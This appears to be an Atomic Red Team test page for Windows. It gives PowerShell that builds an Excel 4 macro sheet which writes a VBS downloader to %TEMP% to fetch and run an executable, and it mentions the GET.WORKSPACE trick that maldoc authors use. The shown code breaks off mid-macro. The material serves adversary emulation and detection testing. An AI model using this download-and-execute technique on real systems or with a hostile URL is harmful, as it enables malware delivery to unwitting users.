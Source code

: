 ##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #6 - Excel 4 Macro
This module creates an Excel 4 Macro (XLM) enabled spreadsheet and executes it. The XLM will first write a "malicious"
VBS file to %TEMP%, then execute this file. The VBS will download Process Explorer to the same directory (%TEMP%) and exec.

A note regarding this module. By default, this module will pull the current username from the system and places it into the macro. If
you'd like to utilize the "=GET.WORKSPACE(26)" method, that many maldoc authors use, you will need to ensure that the User Name associated
with Excel matches that of the local system. This username can be found under Files -> Options -> Username

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| download_url | Download URL | String | https://live.sysinternals.com/procexp.exe|
| uname | Username for pathing | String | $env:Username|


#### Attack Commands: Run with `powershell`! 


```powershell
$fname = "$env:TEMP\atomic_redteam_x4m_exec.vbs"
$fname1 = "$env:TEMP\procexp.exe"
if (Test-Path $fname) {
  Remove-Item $fname
  Remove-Item $fname1
}

$xlApp = New-Object -COMObject "Excel.Application"
$xlApp.Visible = $True
$xlApp.DisplayAlerts = $False
$xlBook = $xlApp.Workbooks.Add()
$sheet = $xlBook.Excel4MacroSheets.Add()

if ("#{uname}" -ne "") {
  $sheet.Cells.Item(1,1) = "#{uname}"
} else {
  $sheet.Cells.Item(1,1) = "=GET.WORKSPACE(26)"
}

$sheet.Cells.Item(2,1) = "procexp.exe"
$sheet.Cells.Item(3,1) = "atomic_redteam_x4m_exec.vbs"
$sheet.Cells.Item(4,1) = "=IF(ISNUMBER(SEARCH(`"64`",GET.WORKSPACE(1))), GOTO(A5),)"
$sheet.Cells.Item(5,1) = "=FOPEN(`"C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A3&`"`", 3)"
$sheet.Cells.Item(6,1) = "=FWRITELN(A5, `"url = `"`"#{download_url}`"`"`")"
$sheet.Cells.Item(7,1) = "=FWRITELN(A5, `"`")"
$sheet.Cells.Item(8,1) = "=FWRITELN(A5, `"Set winHttp = CreateObject(`"`"WinHTTP.WinHTTPrequest.5.1`"`")`")"
```